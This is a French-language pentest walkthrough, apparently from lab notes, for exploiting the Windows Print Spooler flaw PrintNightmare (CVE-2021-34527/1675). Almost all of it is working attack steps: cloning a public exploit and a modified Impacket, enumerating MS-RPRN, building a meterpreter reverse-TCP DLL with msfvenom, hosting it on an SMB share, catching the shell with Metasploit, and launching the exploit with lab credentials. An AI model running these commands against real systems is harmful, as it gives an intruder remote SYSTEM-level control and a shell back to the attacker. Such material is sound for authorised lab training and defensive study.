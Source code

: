 # PrintNightmare

### <mark style="color:red;">PrintNightmare</mark>

**(CVE-2021-34527 & CVE-2021-1675)**

<mark style="color:green;">**Introduction**</mark>

PrintNightmare est le surnom donné à deux vulnérabilités critiques affectant le service Print Spooler de Windows. Ces vulnérabilités permettent à un attaquant d'exécuter du code à distance avec des privilèges système sur une machine cible.

<mark style="color:green;">**Préparation de l'attaque**</mark>

<mark style="color:orange;">**Clonage de l'exploit**</mark>

Nous utilisons l'exploit de cube0x0 disponible sur GitHub :

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

<mark style="color:orange;">**Installation de la version modifiée d'Impacket**</mark>

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

<mark style="color:green;">**Enumération des services vulnérables**</mark>

Nous utilisons `rpcdump.py` pour vérifier si le protocole MS-RPRN est exposé sur la cible.

```bash
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

Sortie attendue :

```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

<mark style="color:green;">**Génération du Payload**</mark>

Nous créons une DLL malveillante avec `msfvenom` :

{% code fullWidth="true" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
{% endcode %}

<mark style="color:green;">**Hébergement du Payload avec un Partage SMB**</mark>

Nous utilisons `smbserver.py` pour créer un partage SMB :

```bash
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

<mark style="color:green;">**Configuration de Metasploit pour réceptionner la connexion**</mark>

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

<mark style="color:green;">**Exécution de l'Exploit**</mark>

Nous lançons l'exploit contre la cible en lui fournissant le chemin vers le partage SMB contenant notre payload.

{% code overflow="wrap" fullWidth="true" %}
```bash
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
{% endcode %}

Sortie attendue :

```
[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
```
